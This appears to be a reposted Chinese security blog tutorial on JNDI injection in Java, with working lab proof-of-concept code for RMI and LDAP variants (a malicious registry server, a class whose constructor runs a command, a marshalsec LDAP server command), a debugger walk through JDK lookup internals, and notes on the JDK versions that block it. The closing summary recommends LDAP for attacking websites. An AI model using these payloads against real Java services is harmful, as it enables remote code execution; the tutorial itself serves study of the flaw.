

[https://xz.aliyun.com/t/6633](https://xz.aliyun.com/t/6633)

## 介绍
JNDI (Java Naming and Directory Interface) ，包括Naming Service和Directory Service。JNDI是Java API，允许客户端通过名称发现和查找数据、对象。这些对象可以存储在不同的命名或目录服务中,就像人的名字或DNS中的域名与IP的关系。
## 结构
JNDI由JNDI API、命名管理、JNDI SPI（service provider interface）服务提供的接口。我们的应用可以通过JNDI的API去访问相关服务提供的接口


JDNI的服务是可以拓展的，可以从JNDI页面下载其他服务提供商，也可以从远程获得其他服务提供商
JDK包括以下命名/目录服务的服务：

- 轻型目录访问协议（ldap）
- 通用对象请求代理体系结构（CORBA），通用对象服务（COS）名称服务
- Java远程方法调用（RMI）注册表
- 域名服务（DNS）

Java命名和目录接口（JNDI）是一种Java API，类似于一个索引中心，它允许客户端通过name发现和查找数据和对象。
其应用场景比如：动态加载数据库配置文件，从而保持数据库代码不变动等

代码格式如下：
```java
String jndiName = "";
Context context = new InitiaContext();
DataSource ds = (DataSource) context.lookup(jndiName)
```
这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），通用对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。
## JNDI注入
JNDI 注入其实就是当上下文中jndiName 这个变量可控的情况下，引发的漏洞，可将远程class文件加载，从而导致远程代码执行（RCE）

测试环境：jdk8u181

```java
// client.java
package JNDIInject;

import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String uri = "rmi://127.0.0.1:1099/aa";
        Context context = new InitialContext();
        context.lookup(uri);
    }
}
```
```java
// server
package JNDIInject;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);
    }
}
```
注意，在服务端代码绑定aa的时候，地址后面一定要加上`/` 如果不加上`/`，那么则向web服务请求恶意字节码的时候，则会找不到该字节码


正确请求如下：


```java
//Exec.java
public class ExecTest {
    public ExecTest() throws Exception {
        System.out.println("123");
    }
}
```
### 执行方式
首先使用jdk8u181 编译ExecTest
```shell
# jdk 8u181
javac ExecTest.java
```
然后使用python 启动一个web服务，`ExecTest.class` 要可访问
### 利用过程

1. 攻击者提供恶意的rmi注册中心
2. JNDI 去恶意的rmi注册中心查询aa类
3. 恶意服务器再返回ExecTest.class 字节码文件给客户端
4. client 再执行ExecTest.class 字节码


### 结果


> 此处客户端有一句 System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
>  `jdk = 8u181` , 这里是存在trustCodebaseURL的限制，只信任已有的codebase地址，不能从指定codebase下载字节码

## 攻击链分析
### RMI
#### 环境
jdk8u181
#### 分析
在Client.java 的`lookup`处打上断点,开始分析, 首先进入context.lookup()的lookup处


##### InitialContext.java
```java
// InitialContext.java
public Object lookup(String name) throws NamingException {
        //getURLOrDefaultInitCtx函数会分析name的协议头返回对应协议的环境对象，此处返回Context对象的子类rmiURLContext对象
        //然后在对应协议中去lookup搜索，我们进入lookup函数
        return getURLOrDefaultInitCtx(name).lookup(name); 
}
```
##### GenericURLContext.java
```java
  // GenericURLContext.class
  // var1 = rmi://127.0.0.1:1099/aa
    public Object lookup(String var1) throws NamingException {
         //此处this为rmiURLContext类调用对应类的getRootURLContext类为解析RMI地址
        //不同协议调用这个函数，根据之前getURLOrDefaultInitCtx(name)返回对象的类型不同，执行不同的getRootURLContext
        //进入不同的协议路线
        
        // 获取rmi注册中心的相关数据 
        ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);
        // 获取注册中心对象
        Context var3 = (Context)var2.getResolvedObj();

        Object var4;
        try {
            // 去注册中心lookup，进入此处 lookup
            var4 = var3.lookup(var2.getRemainingName());
        } finally {
            var3.close();
        }

        return var4;
    }
```
##### RegistryContext.java


```java
// RegistryContext.class
public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else { // var1 = aa，进入else语句
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));  // RMI 客户端与注册中心通信，返回RMI服务IP，地址等信息
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));  // 进入此处decodeObject()
        }
    }
```


```java
private Object decodeObject(Remote var1, Name var2) throws NamingException {
    try {
        // Reference 对象会进行连接，获取远程class文件地址 
        Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
        Reference var8 = null;
        if (var3 instanceof Reference) {
            var8 = (Reference)var3;
        } else if (var3 instanceof Referenceable) {
            var8 = ((Referenceable)((Referenceable)var3)).getReference();
        }

        if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
            throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
        } else {
            // 获取 Reference 对象，进入此处getObjectInstance
            return NamingManager.getObjectInstance(var3, var2, this, this.environment);
        }
    } catch (NamingException var5) {
        throw var5;
    } catch (RemoteException var6) {
        throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
    } catch (Exception var7) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var7);
        throw var4;
    }
}
```
##### NamingManager.java


在这里看到了熟悉的newInstance()，实例化，想想写的ExecTest.java 只有一个构造函数，实例化之后，就会执行构造函数中的恶意代码


继续向下看，走到loadClass函数时，就会向工厂请求ExecTest.class


最后在这里实例化ExecTest，执行构造函数的`Runtime.getRuntime.exec()`,弹出计算器


可以发现命令执行完成了，但是出现了报错，我们可以更换一个命令执行点，在`factor.getObjectInstance`复写该函数执行命令。
报错原因是因为我们的类在实例化之后不能转换成ObjectFactor `(ObjectFactor) clas.newInstance()`，只需要我们的类实现该接口即可；

```java
// ExecTest.java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class ExecTest implements ObjectFactory {
    public ExecTest() throws Exception {
        System.out.println("123");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```


### LDAP
LDAP（Lightweight Directory Access Protocol）-轻量目录访问协议。但看了这个解释等于没说，其实也就是一个数据库，可以把它与mysql对比！
具有以下特点：

1. 基于TCP/IP协议
2. 同样也是分成服务端/客户端；同样也是服务端存储数据，客户端与服务端连接进行操作
3. 相对于mysql的表型存储；不同的是LDAP使用树型存储 
   1. 因为树型存储，读性能佳，写性能差，没有事务处理、回滚功能

树层次分为以下几层：

- dn：一条记录的详细位置，由以下几种属性组成
- dc: 一条记录所属区域（哪一个树，相当于MYSQL的数据库）
- ou：一条记录所处的分叉（哪一个分支，支持多个ou，代表分支后的分支）
- cn/uid：一条记录的名字/ID（树的叶节点的编号，想到与MYSQL的表主键？）

举个例子一条记录就是
`dn="uid=aaron.luo,ou=oa,dc=example,dc=com"`

其实利用方法是没差的，我们之前分析的时候也可以看到代码会根据传入协议头的区别去进入对应的处理函数，只需要修改传入参数的解析头,再启动ldap服务，恶意class的web服务即可
#### 环境
`jdk8u121(windows)`

#### LdapClient.java
```java
//ldapClient.java
import javax.naming.Context;
import javax.naming.InitialContext;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        String uri = "ldap://127.0.0.1:1389/aa";
        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```
#### Server 使用 marshalsec-0.0.3-SNAPSHOT-all.jar 启动一个ldap服务
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#ExecTest
```
#### ExecTest.java
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.directory.Attributes;
import javax.naming.spi.DirObjectFactory;
import java.util.Hashtable;

public class ExecTest implements DirObjectFactory {
    public ExecTest() throws Exception{
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment, Attributes attrs) throws Exception {
        return null;
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```
#### 分析
分析同rmi，在客户端处强制进入lookup



在initialContext.java 中，继续进入lookup，其中name 为传入的uri


在ldapURLContext.java 中，uri 就是 var1，继续lookup，进入lookup


GenericURLContext.java 中getRootURLContext 在找协议，以及需要寻找的指定类，继续进入lookup


partialConpositeContext.java中，this指代上下文中解析ldap的地址，然后再去寻找ldap结构，进入p_lookup()


ComponentContext.java, 传入aa类，再进入c_lookup寻找


LdapCtx.java, 在这里才把codebase找到，以及对应的key值foo，恶意factor ExecTest ，继续跟进


到722行，在这里将var3，var1传入，var3对象包含了className，classFactor，classFactorLocation，这里ldap已经将恶意类信息返回给客户端了，客户端此时则需要向恶意web服务请求字节码，并完成实例化，即可执行恶意类中的命令执行函数，此时我们进入getObjectInstance()


DirectorManager.java，看到这里，是不是很熟悉，如果忘记了，请看上面rmi的详解，在这里我们继续进入getObjectFactoryFromReference()


NamingManger.java，在这里，我们看到已经请求web服务，获取到字节码了，到clas.newInstance() 这里，就能执行恶意字节码中的恶意代码了


## 总结
通过分析，我们发现在使用ldap，没有codebase的限制，而rmi在我windows jdk8u121处都有codebase的限制，所以我们在日站的时候最好是使用ldap来进行注入
粘贴一些前人总结的限制吧
### RMI
JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。

所以不受RMI动态加载恶意类的 java版本应低于7u21、6u45，或者需要设置java.rmi.server.useCodebaseOnly=false系统属性的限制。具有更多的利用空间

但是我们之前实验还是有版本无法复现，是因为在JDK 6u132, JDK 7u122, JDK 8u113版本中，系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类

### LDAP
在2018年10月，Java最终也修复了这个利用点，对LDAP Reference远程工厂类的加载增加了限制，

在Oracle JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为false
